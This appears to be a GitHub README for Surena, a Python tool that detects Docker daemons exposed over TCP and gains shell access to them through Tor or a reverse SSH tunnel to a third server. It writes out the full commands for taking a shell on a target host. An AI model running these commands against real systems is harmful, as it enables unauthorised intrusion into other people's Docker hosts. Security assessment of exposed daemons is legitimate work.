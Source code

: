 # Surena

Surena is a tool developed to assess vulnerabilities in Docker daemons when their ports are exposed to a TCP network. It is developed using Click, a Python CLI library, and the Docker SDK for Python. Surena demonstrates how a hacker can gain shell access from an insecure Docker host using two methods: Tor Network and SSH Reverse Tunneling. To explain how Surena works and how to use these methods, we have written an article on Medium that you can read by following this link: [article](https://medium.com/@norouzzadegan/how-an-insecure-docker-daemon-configuration-allowed-hackers-to-gain-shell-access-to-the-docker-host-69628c4be503).

## Installation

You can install Surena from PyPI by running the following command:

```bash
pip install surena
```

Once installed, you can run Surena using the following commands in your terminal. To view the available commands and options, use:

```bash
surena --help
```

Surena has two commands: `is-docker-host` and `get-docker-host`. The `is-docker-host` command is used for checking if the Docker daemon's port is accessible from the network. To understand its options, run the following command:

```bash
surena is-docker-host --help
```

For example, you can run this command with the following options:

```bash
surena is-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT
```

The `get-docker-host` command is used to gain shell access from the Docker daemon using two methods. To understand its options, run the following command:

```bash
surena get-docker-host --help
```

For example, to gain shell access using the Tor Network method, run this command with the following options:

```bash
surena get-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT --access-method tor
```

To gain shell access using the Reverse SSH Tunneling method, run this command with the following options:

```bash
surena get-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT --access-method reverse-ssh --ssh-server-address $THIRD_SERVER_IP --ssh-server-username $THIRD_SERVER_USERNAME --ssh-server-password $THIRD_SERVER_PASSWORD --ssh-server-port $THIRD_SERVER_SSH_PORT
```

Please note that `$DOCKER_HOST_IP`, `$DOCKER_HOST_PORT`, `$THIRD_SERVER_IP`, `$THIRD_SERVER_USERNAME`, `$THIRD_SERVER_PASSWORD`, and `$THIRD_SERVER_SSH_PORT` should be replaced with the appropriate values.


Please note: Surena is intended for lab use and for understanding whether your Docker daemon is secure or insecure. DO NOT USE SURENA FOR MALICIOUS ACTIVITIES.

If Surena has helped you secure your infrastructure, particularly those utilizing Docker daemons over the network, we would be thrilled if you could consider supporting us by donating Dogecoin, Our Dogecoin wallet address for donations is: DRizEG8R6wW2cW5MNEAnERMMEMq6wupQMA
